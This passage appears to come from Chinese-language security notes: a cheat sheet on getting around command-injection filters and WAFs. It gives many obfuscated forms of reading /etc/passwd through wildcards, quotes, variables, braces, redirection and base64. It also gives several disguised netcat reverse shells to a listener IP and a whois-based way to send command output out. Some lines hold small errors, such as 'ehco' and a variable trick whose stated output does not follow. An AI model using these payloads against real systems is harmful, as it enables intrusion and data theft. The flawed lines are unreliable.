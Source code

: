   ```
| command1 /\|/\| command2 | 先后执行1和2失败才执行2           |
| command1 /\| command2    | 将1执行的结果传递给2              |
| command1 ; command2      | 先后执行1和2,无论1是否成功执行    |

> 命令执行变形

- `*`代表通配符[0,无穷]
- `?`代表[一定有一个]任意字符
- []同样代表[一定有一个在括号内]的字符(非任意字符).例如[abcd]随机一个
- [-]若有减号在中括号内时,代表[在编码顺序内的所有字符].例如[0-9]代表0-9之间的所有数字,因为数字的编码是连续的
- [^]若中括号内的第一个字符为指数符号`^`,那表示[反向选择],例如`[^abc]`代表一定有一个字符,只要是`非`a,b,c的其它字符就接收的意思

```cmd
//执行 cat /etc/passwd 读取passwd文件
//变形:/?in/?at/?tc/?ass?d  

//执行反弹shell时, nc -e /bin/bash 192.168.12.151 4444
//变形------------/???/nc -e/???/b???h 192.168.12.151 4444
//还可ip转数字,数字转ip
//变形------------/???/nc -e/???/b???h 3232238743 4444

//单引号----------------'n'c -e /'b'i'n'/b'a's'h' 1'9'2.1'6'8.1'5'1 '4'44'4'

//双引号----c"a"t /"e""t"c/"p"as"s"w"d"
//反斜杠----c/a/t /e/t/c/p/as/swd
//组合------c'a't /??c//p?/s?''?"d"

//未初始化变量
echo $a $b $c
cat$a /etc$a/passwd$a
a=w;b=hoa;c=mi;$a$b$b  --->输出root

//使用没有被waf过滤的命令
nc -lnvp 4444
靶机:whois -h 192.168.1.1 -p 4444 'whoami'

//反引号执行命令
`whoami`
ichunqiu `whoami` ichunqiu

//大括号,重定向符号绕过空格过滤
{cat,/etc/passwd}
{ls,-al}
l<>s
cat<>/etc/passwd

//base64编码
ehco whoami|base64  -->  d2hvYW1pCg==
`echo d2hvYW1pCg== | base64 -d`

//linux默认字符命令
${#PATH:5:1}${#PATH:2:1}
```
